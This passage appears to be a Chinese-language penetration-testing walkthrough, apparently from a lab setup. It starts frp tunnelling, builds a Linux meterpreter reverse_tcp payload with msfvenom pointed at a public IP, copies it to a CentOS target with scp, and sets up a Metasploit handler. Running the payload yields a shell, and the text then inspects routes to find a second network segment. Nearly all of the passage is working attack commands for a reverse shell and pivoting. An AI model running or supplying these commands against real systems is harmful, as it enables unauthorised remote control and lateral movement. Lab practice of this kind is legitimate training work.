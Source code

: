 ```
┌──(root㉿Kali-24)-[~/frp_0.49.0_linux_amd64]
└─# ./frpc -c frpc.ini
```

生成 Payload

```
┌──(root㉿Kali-24)-[~]
└─# msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=123.56.167.168 LPORT=8000 -b "\x00" -f elf -o hello-pub
```

上传到目标

```
┌──(root㉿Kali-24)-[~]
└─# scp hello-pub root@192.168.6.76:/root/ 
```

配置侦听

```
┌──(root㉿Kali-24)-[~]
└─# msfdb run
```

```
msf6 > use exploit/multi/handler
```

```
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set LHOST 192.168.6.24
```

```
msf6 exploit(multi/handler) > set LPORT 4444
```

```
msf6 exploit(multi/handler) > run
```

运行 payload

```
[root@CentOS-76 ~]# chmod +x hello-pub 
[root@CentOS-76 ~]# ./hello-pub
```

> 最终得到 shell

查看网段

```
meterpreter > route
```

> 发现有两个网段
